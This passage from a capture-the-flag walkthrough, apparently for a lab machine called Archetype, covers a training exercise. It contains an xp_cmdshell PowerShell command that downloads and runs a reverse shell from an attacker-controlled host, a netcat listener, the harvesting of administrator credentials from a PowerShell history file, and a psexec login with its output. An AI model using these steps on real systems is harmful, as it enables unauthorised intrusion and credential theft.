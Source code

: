with python3 (**recomended**):
```
python3 -m http.server
```

with python2:
```
python2 -m SimpleHTTPServer
```
Now put netcat in listening mode you can see how to do it in the part "[netcat in listening mode](#netcat-in-listening-mode)".

Then download that shell in SQL with the following command:
```sql
xp_cmdshell "powershell "IEX (New-Object
Net.WebClient).DownloadString(\"http://YOUR IP/shell.ps1\");"
```

#### netcat in listening mode
To have netcat in listening mode you must execute:
![Netcat listering](netcat-listering.png)
```shell
ln -lvnp 443
```
If you have a firewall, you must disable it or add rules for ports 443 and 80 with the commands:

```shell
ufw allow from 10.10.10.27 proto tcp to any port 80,443
```
Now you can continue in the type of connection you chose.

### User flag
The user (ARCHETYPE/sql_svc) banner is on the desktop at home.

## Privilege Escalation
To obtain the administrator credentials we will exploit the history or log of the powershell this is located in the user's home in the path: ```C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```

To see the content of the file we execute:
```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### Root flag
Login with administrator user with [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py).

```shell
python3 psexec.py administrator@10.10.10.27
Impacket - Copyright SecureAuth Corpotation

Password: 

[*] Requesting shares on 10.10.10.27......
[*] Found writable share ADMIN$
[*] Uploading file uTkahtBM.exe
[*] Opening SVCManager on 10.10.10.27......
[*] Creating service uwOG on 10.10.10.27......
[*] Starting service uwOG......
[!] Press help for extra shel commands

Microsoft Windows
(C) Microsoft Coporation. All rights reserved.
```